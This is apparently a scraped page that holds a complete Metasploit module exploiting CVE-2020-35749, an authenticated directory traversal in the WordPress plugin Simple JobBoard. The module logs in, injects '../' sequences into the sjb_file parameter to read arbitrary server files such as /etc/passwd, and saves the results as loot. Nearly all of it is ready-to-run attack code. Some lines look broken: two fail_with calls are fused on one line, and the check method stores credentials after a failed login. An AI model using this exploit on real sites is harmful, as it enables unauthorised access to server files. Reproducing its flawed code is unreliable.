INFO
----

This Metasploit module exploits an authenticated directory traversal vulnerability in WordPress plugin Simple JobBoard versions prior to 2.9.3 to perform an arbitrary file read with the web server privileges.

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Auxiliary
        include Msf::Auxiliary::Report
        include Msf::Exploit::Remote::HTTP::Wordpress
        include Msf::Auxiliary::Scanner

          def initialize(info = {})
              super(update_info(info,
                'Name'           => 'Simple JobBoard Authenticated File Read Vulnerability',
                'Description'    => %q{
                    This module exploits an authenticated directory traversal vulnerability in WordPress plugin 'Simple JobBoard ' < 2.9.3,
                    allowing arbitrary file read with the web server privileges.
                },
                'Author'         =>
                  [
                    'Arcangelo Saracino', # Vulnerability discovery
                    'Hoa Nguyen - Suncsr Team',    # Metasploit module
                  ],
                'License'        => MSF_LICENSE,
                'References'     =>
                  [
                    ['CVE', '2020-35749'],
                    ['WPVDB', 'eed3bd69-2faf-4bc9-915c-c36211ef9e2d'],
                    ['URL','https://arkango.github.io/CVE-2020/CVE-2020-35749%20DIr.%20Traversal%20Simple%20Board%20Job%20Wordpress%20plugin.html']
                  ],
                'DisclosureDate' => 'Jan 15 2021'))

                register_options([
                    OptString.new('FILEPATH',[true,'The path to the file to read','/etc/passwd']),
                    OptString.new('USERNAME',[true,'The WordPress username to authenticate with']),
                    OptString.new('PASSWORD',[true,'The Wordpress password to authenticate with']),
                    OptInt.new('DEPTH',[true,'Traversal Depth (to reach the root folder',8]),
                ])
                end

                def username
                    datastore['USERNAME']
                end

                def password
                    datastore['PASSWORD']
                end

                def check
                    cookie = wordpress_login(username,password)
                    if cookie.nil?
                        store_valid_credential(user: username, private: password, proof: cookie)
                        return CheckCode::Safe
                    end
                    CheckCode::Appears
                end

                def run_host(ip)
                    cookie = wordpress_login(username, password)
                    traversal = '../' * datastore['DEPTH']
                    filename = datastore['FILEPATH']
                    filename = filename[1, filename.length] if filename =~ /^\//

                    res = send_request_cgi({
                        'cookie' => cookie,
                        'method' => 'GET',
                        'uri' => normalize_uri(target_uri.path,'wp-admin',''),
                        'vars_get' =>
                        {
                            'post' => 'application_id',
                            'action' => 'edit',
                            'sjb_file' => "#{traversal}#{filename}"
                        }
                    })

                    fail_with Failure::Unreachable, 'Connection failed' unless res fail_with Failure::NotVulnerable, 'Connection failed. Nothingn was downloaded' if res.code != 200
                    fail_with Failure::NotVulnerable, 'Nothing was downloaded. Change the DEPTH parameter' if res.body.length.zero?
                    print_good('Downloading file ...')
                    print_line("\n#{res.body}\n")
                    fname = datastore['FILEPATH']
                    path = store_loot(
                        'Simple_JobBoard.traversal',
                        'text/plain',
                        ip,
                        res.body,
                        fname
                    )
                    print_good("File save in: #{path}")
                end
            end
